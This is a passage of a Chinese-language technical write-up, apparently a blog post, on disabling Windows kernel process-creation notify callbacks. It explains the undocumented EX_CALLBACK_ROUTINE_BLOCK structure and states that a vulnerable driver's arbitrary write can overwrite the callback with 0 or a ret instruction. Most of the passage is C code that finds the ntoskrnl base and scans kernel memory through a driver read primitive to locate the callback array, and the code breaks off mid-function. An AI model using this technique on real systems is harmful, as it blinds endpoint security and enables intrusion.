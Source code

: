 此结构体为`EX_CALLBACK_ROUTINE_BLOCK` ，它是没有记录。但是ReactOS给了它定义：

```plain
typedef struct _EX_CALLBACK_ROUTINE_BLOCK {
    EX_RUNDOWN_REF RundownProtect;
    PEX_CALLBACK_FUNCTION Function;
    PVOID Context;
} EX_CALLBACK_ROUTINE_BLOCK, *PEX_CALLBACK_ROUTINE_BLOCK;
```

该结构体前8位是`EX_RUNDOWN_REF` 结构，可以忽略，后面的`PEX_CALLBACK_FUNCTION` 就是回调函数的地址，如上图。

拿到这个回调函数地址之后可以利用驱动的任意地址写向其写入0或ret指令，来使其失效。话不多说，下面来看一下代码实现。

```plain
#include "header.h"
HANDLE hDevice = NULL;
HANDLE Process = NULL;

PVOID GetNtoskrnlBase() {
    PRTL_PROCESS_MODULES ModuleInfo = (PRTL_PROCESS_MODULES)calloc(1024 * 1024,1);
    NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, ModuleInfo, 1024*1024, NULL);
    if (!NT_SUCCESS(status)) {
        return 0;
    }

    for (int i = 0; i < ModuleInfo->NumberOfModules; i++)
    {
        if (lstrcmpiA((LPCSTR)(ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0) {

            return ModuleInfo->Modules[i].ImageBase;
        }
    }
    return 0;
}
INT64 GetFuncAddress(CHAR* FuncName) {

    PVOID KBase=GetNtoskrnlBase();
    if (KBase == 0) {
        printf("未找到ntoskrnl.exe基地址\n");
        return 0;
    }
    HMODULE ntos = LoadLibraryA("ntoskrnl.exe");
    ULONG PocAddress = (ULONG)GetProcAddress(ntos, FuncName);
    ULONG Offset = PocAddress - (ULONG)ntos;
    return (INT64)KBase+Offset;
}
INT64 GetPspCreateProcessNotifyRoutineArray() {
    INT64 PsSetCallbacksNotifyRoutineAddress = GetFuncAddress((CHAR*)"PsSetCreateProcessNotifyRoutine");
    if (PsSetCallbacksNotifyRoutineAddress == 0) return 0;
    //定位PspSetCreateProcessNotifyRoutine函数地址
    INT count = 0;
    BYTE* buffer = (BYTE*)malloc(1);
    while (1) {
        DriverReadMemery((VOID*)PsSetCallbacksNotifyRoutineAddress, buffer,1);
        if (*buffer == 0xE8 || *buffer == 0xE9) {
            break;
        }
        PsSetCallbacksNotifyRoutineAddress = PsSetCallbacksNotifyRoutineAddress + 1;
        if (count == 200) {
            printf("未找到Pspsetcreateprocessnotifyroutine 函数地址\n");
            return 0;
        }
```